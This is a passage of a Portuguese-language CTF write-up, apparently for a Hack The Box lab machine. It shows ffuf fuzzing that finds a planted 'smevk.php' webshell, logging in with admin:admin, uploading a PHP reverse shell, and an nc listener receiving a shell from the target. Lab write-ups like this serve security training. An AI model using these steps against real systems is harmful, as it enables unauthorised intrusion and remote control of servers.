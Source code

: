 ```bash
 :: Wordlist         : FUZZ: Web-Shells/wordlist
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

smevk.php               [Status: 200, Size: 1261, Words: 318, Lines: 59, Duration: 1591ms]
:: Progress: [18/18] :: Job [1/1] :: 20 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

    Dessa maneira, encontramos a webshell "smevk.php" sendo utilizada no host.

![Sreenshot](screenshots/Screenshot_2022-12-24_16-45-25.png)

    Credenciais de acesso: **admin:admin**

    Dentro do painel, podemos inserir uma reverse shell php pela opção de fazer upload de arquivo.

![](screenshots/Screenshot_2022-12-24_16-48-08.png)

    Feito o upload, acessamos nosso arquivo de reverse shell "http://10.129.27.174/php-reverse-shell.php" e pegamos shell reversa.

> Shell reversa ao acessar o arquivo

```bash
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.27.174] 59942
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:50:45 up 17 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
